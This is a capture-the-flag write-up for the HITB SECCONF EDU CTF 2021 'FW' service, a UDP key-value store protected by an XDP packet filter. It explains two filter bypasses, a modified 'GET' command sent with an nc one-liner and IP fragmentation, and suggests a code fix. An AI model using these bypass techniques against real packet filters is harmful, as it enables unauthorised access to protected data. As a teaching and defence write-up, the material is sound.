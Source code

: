 # Writeup for the FW service from HITB SECCONF EDU CTF 2021

## About the service

The service is a key-value storage with additional security layer, added by separate service (protector).

UDP protocol is used.

## Structure of the service

Service has two parts:
- storage daemon,
- protector daemon.

Storage daemon (`storage.py`) listens UDP port 17777 and supports commands:
- `PIN` - health-check, the service responds `PON`,
- `PUT <FLAG_ID> <FLAG_DATA> <SIGNATURE>` - the service checks signature and if it is valid, stores the flag, such signature can create only checksystem,
- `GET <FLAG_ID>` - the service returns `<FLAG_DATA>`
- `DIR` - the service returns flags list.

Only last 30 flags are stored, older ones are automatically removed.

Protector daemon (`protector.py`) listens UDP port 17778 and supports single command:
- `LCK <FLAG_ID> <PASS> <SIGNATURE>` - creates protection rule for flag `<FLAG_ID>`.

`<PASS>` is a 4-byte number in hex format. It should be inserted in an optional IP header. If `<PASS>` exists in packet, it is passed to the operating system and storage daemon. Otherwise packet is dropped.

Protector daemon manages an XDP program on a network interface. XDP program allows filtering incoming network packets on a very low level, just after network card. On each `LCK` command program is updated, compiled and loaded to the kernel.

## Vulnerabilities

1. XDP program filters only `GET` commands, others are alowed without password:
```
    if (udp_data[0] != 'G' || udp_data[1] != 'E' || udp_data[2] != 'T' || udp_data[3] != ' ') {
        return XDP_PASS; // Only "GET" commands are protected, others just pass.
    }
```
Here we see that space after command is mandatory.

In storage service, character number 3 of UDP payload is ignored (can be arbitrary):
```
            cmd = message[:3]
            ...
            elif cmd == "GET":
                flag_id = message[4:18]
```
So, if we replace ' ' with other character, XDP program will just pass it.

Exploit:
```
$ echo "GET aaaa-bbbb-7000" | nc -u <IP> 17777; echo
^C
# packet is blocked, no flag is printed

$ echo "GET+aaaa-bbbb-7000" | nc -u <IP> 17777; echo
TEENHYW8LJHU1ZCA818AEA513189ECD=
# flag is printed
```

To fix it, we should remove `udp_data[3] != ' '` condition from `xdp_filter.template.c`.

2. IP packet fragmentation also allows to get around password check.

Vulnerable code is:
```
    if (udp_data + 4 > data_end) {
        return XDP_PASS; // Packet doesn't contain "GET " - not our application (e.g., DNS?)
    }
```

So, if we fragment one UDP packet...
```
[IP header][UDP header][GET <FLAG_ID>]
```
... into smaller ones:
```
[IP header][UDP header]   # IP packet 1
[IP header][GET ]         # IP packet 2
[IP header][<FLAG_ID>]    # IP packet 3
```
they will successfully pass XDP checks. Afterwards, they will be assembled by the operating sytem's network stack, and passed to storage service as one UDP packet.

This exploit can be found at [sploits/fw](../../sploits/fw).
